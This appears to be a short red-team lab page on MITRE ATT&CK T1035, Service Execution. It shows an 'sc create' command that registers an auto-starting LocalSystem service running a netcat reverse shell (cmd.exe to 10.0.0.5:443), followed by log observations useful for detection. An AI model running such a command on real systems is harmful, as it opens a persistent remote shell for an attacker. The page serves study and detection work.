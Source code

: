 ```yaml
---
description: 'Code Execution, Privilege Escalation'
---
```


# T1035: Service Execution

## Execution

Creating an evil service with a netcat reverse shell:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
C:\> sc create evilsvc binpath= "c:\tools\nc 10.0.0.5 443 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
[SC] CreateService SUCCESS
C:\> sc start evilsvc
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

The reverse shell lives under services.exe as expected:

![](../.gitbook/assets/services-nc.png)

Windows security, application, Service Control Manager and sysmon logs provide some juicy details:

![](../.gitbook/assets/services-logs.png)

![](../.gitbook/assets/services-shell.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1035" %}

